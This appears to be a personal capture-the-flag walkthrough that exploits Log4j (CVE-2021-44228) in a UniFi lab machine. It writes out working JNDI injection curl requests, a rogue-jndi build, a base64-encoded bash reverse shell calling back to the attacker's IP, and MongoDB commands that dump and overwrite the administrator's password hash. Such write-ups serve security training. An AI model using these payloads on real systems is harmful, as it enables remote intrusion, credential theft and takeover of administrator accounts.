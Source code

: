 https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

#CVE-2021-44228
Log4J in a very well known network appliance monitoring system called "UniFi"
the Log4J vulnerability manipulate a POST header called remember , giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.



we intercept the login request with burp and add our payload into remember parameter 
![[Pasted image 20221118184918.png]]

**JNDI: is the acronym for the Java Naming and Directory Interface API**
**LDAP: is the acronym for Lightweight Directory Access Protocol**
if we get an error that means there is the website is vulnerable to Log4j 

Payload:
```javascript
"${jndi:ldap://10.10.16.24/something}"

```
https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

**Check for vuln** 

To test for the vulnerability, let’s first grab a hostname from dnslog.cn and insert it in the following cURL command:
```bash
curl -i -s -k -X POST -H $'Host: 192.168.11.10:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://192.168.11.10:8443/api/login'



curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:80/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login'  


```

![[Pasted image 20221118194150.png]]
and we have Log4j
Let's proceed to starting tcpdump on port 389 , which will monitor the network traffic for LDAP connections.

```
sudo tcpdump -i tun0 port 389
```

We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system

**Open-JDK: is the Java Development kit, which is used to build Java applications**

**Maven: is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .**

These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

```bash

# openjdk
sudo apt update
sudo apt install openjdk-11-jdk -y 
java -version

# maven
sudo apt-get install maven

mvn -v 


# Rouge jdi
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```
![[Pasted image 20221118200618.png]]

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```bash
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}

# e.g

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuNDIvOTAwMSAwPiYxCg==}|{base64,- d}|{bash,-i}" --hostname "10.10.16.42"


```
![[Pasted image 20221118201004.png]]

now we open a listener and run our payload

```bash
nc -lvp 4444 #listener 

${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} # remember paramater value

curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login' # curl for the request

```
![[Pasted image 20221118204812.png]]

# Privilege escalation 

Look for mongodb on the machine [[03 Commands/Linux/Linux]]
```bash
ps aux | grep mongo
```
![[Pasted image 20221118205506.png]]


## extract admin password


```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
![[Pasted image 20221118210446.png]]


![[Pasted image 20221118210115.png]]

now we can send this hash to hash cat and crack it 

![[Pasted image 20221118210355.png]]
or if it's hard to crack it we can try to change the password value in Mongodb with out password to do that
first we need to create a password with same encryption

```bash
mkpasswd -m SHA-512 password123
```
Let's proceed to replacing the existing hash with the one we created.



```bash
# Change the password value to our password

mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'


```
![[Pasted image 20221118211043.png]]
now we have access to UniFi and we can login as administrator 
![[Pasted image 20221118211355.png]]

UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.
Navigate to settings -> site and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![[Pasted image 20221118211459.png]]

![[Pasted image 20221118211558.png]]

 ---
Tags: #log4j
Resources: